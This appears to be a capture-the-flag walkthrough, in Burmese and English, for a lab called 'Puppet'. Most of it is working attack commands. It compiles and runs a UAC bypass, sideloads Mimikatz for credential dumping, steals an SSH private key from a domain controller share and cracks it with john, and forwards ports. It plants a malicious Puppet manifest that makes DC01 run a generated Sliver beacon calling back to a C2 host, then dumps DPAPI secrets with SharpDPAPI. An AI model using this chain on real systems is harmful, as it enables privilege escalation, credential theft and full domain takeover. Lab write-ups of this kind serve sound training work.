### ဒီ Command နှစ်ခုက ကိုယ့်ရဲ့ Kali Linux ထဲမှာ Compile လုပ်ပြီးသား ဖြစ်သွားတဲ့ SspiUacBypass (UAC Bypass လုပ်တဲ့ ပရိုဂရမ်) ရဲ့ ဖိုဒ်ဆီကို အရင်ဆုံး ဝင်လိုက်တာနဲ့ အဲ့ဒီဖိုဒ်ထဲမှာ ရှိတဲ့ Source Code တွေကို တကယ်အလုပ်လုပ်မယ့် ဖိုင်အဖြစ် ပြောင်းလဲတည်ဆောက်လိုက်တာ ဖြစ်ပါတယ်။

အသေးစိတ် ရှင်းပြရရင် -

cd ~/Downloads/UAC-BOF-Bonanza/SspiUacBypass

ကိုယ့်ရဲ့ Kali Linux ထဲမှာရှိတဲ့ Downloads ဖိုဒ်အောက်က UAC Bypass source code တွေရှိတဲ့ SspiUacBypass ဖိုဒ်ဆီကို Terminal ကနေ တိုက်ရိုက် ဝင်ရောက်လိုက်တာ ဖြစ်ပါတယ်။

make

အဲ့ဒီဖိုဒ်ထဲကို ရောက်သွားတဲ့အခါမှာ C++ source code တွေကို MinGW compiler ကိုသုံးပြီး Windows မှာ တိုက်ရိုက်အသုံးပြုလို့ရမယ့် .exe ဖိုင်နဲ့ .o ဖိုင်တွေအဖြစ် အလိုအလျောက် ပြောင်းလဲတည်ဆောက်လိုက်တာ (Build လုပ်လိုက်တာ) ဖြစ်ပါတယ်။

upload the file to silver server

```cmd
upload /home/kali/Downloads/UAC-BOF-Bonanza/SspiUacBypass/bin/standalone/SspiUacBypass.exe C:/Windows/temp/bypass.exe
```




Run command in sliver server

```cmd
execute -o -- "C:\Windows\temp\bypass.exe" "C:\ProgramData\Puppet\puppet-update.exe"
```

### Mimikatz ဖြင့် Credentials များ ဖြိုခွဲထုတ်ယူခြင်း (Sideloading)
Session ထဲရောက်ပြီဆိုတာနဲ့ အောက်ပါ Command ကို တိုက်ရိုက် ကူးထည့်ပြီး Run လိုက်ပါ -

```cmd
sideload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe "privilege::debug" "sek
```


find the flag


# Flag 3

use command 
```cmd
ps
```

### Linux / Unix System တွေမှာ ps ဆိုတာ "Process Status" ကို ကိုယ်စားပြုတဲ့ Command တစ်ခုဖြစ်ပါတယ်။
### လက်ရှိ System ထဲမှာ run နေတဲ့ Processes (ပရိုဂရမ်များ/လုပ်ဆောင်ချက်များ) ရဲ့ အခြေအနေနဲ့ အချက်အလက်များကို ကြည့်ရှုစစ်ဆေးဖို့အတွက် အသုံးပြုပါတယ်။

found ruby.exe


use migrate 
```cmd
migrate -p 556
```

### migrate -p 1196 ဆိုတာ Metasploit (Meterpreter) သို့မဟုတ် Sliver C2 စတဲ့ Command-and-Control (C2) Framework တွေထဲမှာ လက်ရှိ ရောက်ရှိနေတဲ့ Session/Payload ကို Process ID (PID) 1196 ထဲသို့ ပြောင်းရွှေ့ (Migrate) ခိုင်းတဲ့ Command ဖြစ်ပါတယ်။


so use another sessions 
```cmd
sessions
```


### And then migrate

Now I use
```cmd
sliver (BLUSHING_ERROR) > execute -o -- arp -a
```

### **ဘာကြောင့် `execute -o -- arp -a` ကို သုံးတာလဲ?**

ဒီ command ကို local network ထဲမှာ ယခင်က တွေ့ရှိထားတဲ့ device တွေရဲ့ IP address နဲ့ MAC address ဆက်စပ်မှုတွေကို စစ်ဆေးဖို့ အသုံးပြုပါတယ်။ Puppet Pro Lab မှာ network အတွင်းရှိ အခြားစက်တွေရဲ့ အချက်အလက်တွေကို နားလည်ဖို့ အသုံးဝင်ပါတယ်။


```cmd
sa-netshares  dc01
```

sa-netshares dc01 ဆိုတာ DC01 စက်ပေါ်မှာရှိတဲ့ Network Share တွေကို ရှာဖွေစာရင်းပြုစုဖို့ သုံးတဲ့ command ဖြစ်ပါတယ်။

```cmd
ls \\\\dc01.puppet.vl\\it
```

ls \\dc01.puppet.vl\it ဆိုတာ DC01 ပေါ်က IT network share ထဲမှာရှိတဲ့ ဖိုင်နဲ့ folder တွေကို စာရင်းကြည့်ဖို့ သုံးတာပါ။


```cmd
ls \\\\dc01.puppet.vl\\it\\.ssh
```

### **ဘာကြောင့် `ls \\\\dc01.puppet.vl\\it\\.ssh` ကို သုံးတာလဲ?**

ဒီ command ကို `DC01` ရဲ့ `IT` network share ထဲက `.ssh` folder အတွင်းရှိ ဖိုင်တွေကို စာရင်းကြည့်ဖို့ သုံးတာပါ။

- `ls` — ဖိုင်နဲ့ folder တွေကို စာရင်းပြတယ်။
- `\\dc01.puppet.vl\it` — DC01 ရဲ့ IT network share ကို ရည်ညွှန်းတယ်။
- `.ssh` — SSH key နဲ့ configuration ဖိုင်တွေ ရှိနိုင်တဲ့ folder ဖြစ်တယ်။

**Puppet Pro Lab မှာ ရည်ရွယ်ချက်:** SSH key ဖိုင်တွေ ရှိမရှိ စစ်ဆေးပြီး နောက်အဆင့်ကို နားလည်ဖို့ ဖြစ်ပါတယ်။


And then download file 

```cmd
download \\\\dc01.puppet.vl\\it\\.ssh\\ed25519
```


```cmd
mv '\\dc01.puppet.vl\it\.ssh\ed25519' ed25519
```

```cmd
ls -l ed25519
```

```cmd
john ed25519.hash --wordlist=/usr/share/wordlists/rockyou.txt
```


built port forward

```cmd
portfwd add --bind 2222 -r 172.16.40.200:22
```


Use this command 

```cmd
ssh -i ~/Downloads/ed25519_lf -o IdentitiesOnly=yes 'svc_puppet_lin_t1@puppet.vl'@10.13.38.33
```


use 

```cmd
sudo -l
```

sudo -l က Linux မှာ လက်ရှိ user က sudo နဲ့ ဘယ် command တွေကို administrator/root privilege နဲ့ run လုပ်ခွင့်ရှိလဲ ဆိုတာ စစ်ဆေးတဲ့ command ပါ။


# For Flag4

First 

```cmd
mkdir -p /etc/puppet/code/environments/production/manifests
```

### ဒီ command ကို Puppet အတွက် instruction တွေသိမ်းမယ့် folder ဖန်တီးဖို့ သုံးတာပါ။ ဥပမာ `site.pp` ဖိုင်ထဲမှာ ဘယ် computer မှာ ဘာ configuration လုပ်ရမလဲဆိုတာ ရေးပြီး Puppet က အဲဒီ instruction တွေအတိုင်း လုပ်ဆောင်နိုင်ပါတယ်။

And run 

```cmd
cat > /etc/puppet/code/environments/production/manifests/site.pp << 'EOF'
node 'dc01.puppet.vl' {
  exec { 'pwned':
    command   => 'C:\\Windows\\System32\\cmd.exe /c \\\\file01.puppet.vl\\files\\update.exe',
    logoutput => true,
  }
}
node default {
  notify { 'This is the default node': }
}
EOF
```

### ဒီ command က Puppet ရဲ့ `site.pp` ဖိုင်ထဲမှာ ဘယ် computer မှာ ဘယ် command ကို run လုပ်ရမလဲဆိုတဲ့ instruction ကို ရေးသွင်းတာပါ။ `cat > ... << 'EOF'` က ဖိုင်ထဲကို စာသားရေးတာဖြစ်ပြီး `node 'dc01.puppet.vl'` က DC01 အတွက် သတ်မှတ်ထားတာပါ။ `exec` က Windows command တစ်ခုကို run ဖို့ သတ်မှတ်ထားပြီး၊ ဒီဥပမာမှာ `file01.puppet.vl` ရဲ့ share ထဲက `update.exe` ကို execute လုပ်ဖို့ ကြိုးစားပါတယ်။ `logoutput => true` က command ရဲ့ output ကို log ထဲမှာ မှတ်တမ်းတင်ဖို့ပါ။ `node default` က အခြားသတ်မှတ်မထားတဲ့ node တွေအတွက်ဖြစ်ပြီး `notify` က message တစ်ခုကို ပြသဖို့ သုံးပါတယ်။ သတိပြုရန်: ဒီ manifest က DC01 ပေါ်မှာ executable တစ်ခုကို run စေဖို့ ရည်ရွယ်ထားတာဖြစ်လို့ ဘယ်ဖိုင်ကို run ခိုင်းနေသလဲဆိုတာ သေချာစစ်ဆေးသင့်ပါတယ်။

And run this command

```cmd
generate beacon --mtls 172.16.40.200:8443 --os windows --arch amd64 --save /tmp/update.exe
```
### ဒီ command ကို သုံးရတဲ့အကြောင်းက Windows DC01 စက်နဲ့ Sliver C2 server ကြား ဆက်သွယ်မှုတည်ဆောက်ဖို့ ဖြစ်ပါတယ်။ `beacon` က အဲဒီဆက်သွယ်မှုအတွက် အသုံးပြုတဲ့ payload ဖြစ်ပြီး၊ lab ထဲမှာ security testing လုပ်ရာမှာ attack path ကို စမ်းသပ်ဖို့ အသုံးပြုနိုင်ပါတယ်။ ဒါပေမဲ့ အလားတူနည်းပညာကို ခွင့်ပြုချက်မရှိဘဲ စက်တစ်လုံးကို အဝေးကနေ ထိန်းချုပ်ဖို့လည်း အသုံးချနိုင်တာကြောင့် ကိုယ်ပိုင် lab သို့မဟုတ် ခွင့်ပြုထားတဲ့ ပတ်ဝန်းကျင်မှာသာ အသုံးပြုသင့်ပါတယ်။

```cmd
use 18b16445  # svc_puppet_win_t1 session
```

upload file in sliver server

```cmd
upload /tmp/update.exe \\\\file01.puppet.vl\\files\\update.exe
```

Download the SharpDPAPI 

```cmd
git clone https://github.com/Flangvik/SharpCollection.git 
```

### SharpDPAPI is
SharpDPAPI က Windows ရဲ့ DPAPI (Data Protection API) နဲ့ ဆက်စပ်တဲ့ ကာကွယ်ထားသော data တွေကို စစ်ဆေးဖို့ အသုံးပြုတဲ့ security tool ပါ။

ဒီ tool ကို ဘာကြောင့်သုံးလဲဆိုရင်—
- Security testing: Windows မှာ သိမ်းထားတဲ့ ကာကွယ်ထားသော အချက်အလက်တွေ ဘယ်လောက်လုံခြုံလဲ စမ်းသပ်ဖို့။
- Credential security: Windows credentials နဲ့ secrets တွေကို ကာကွယ်ထားပုံကို စစ်ဆေးဖို့။
- Penetration testing: ခွင့်ပြုထားတဲ့ lab ထဲမှာ credential exposure ဖြစ်နိုင်ခြေကို နားလည်ဖို့။

Upload the file from sliver server 

```cmd
upload /home/kali/tools/SharpCollection/NetFramework_4.7_x64/SharpDPAPI.exe c:\users\public\SharpDPAPI.exe
```

Run the file 

```cmd
execute -o -- "c:\users\public\SharpDPAPI.exe" machinetriage
```


# Archievement(http.......)

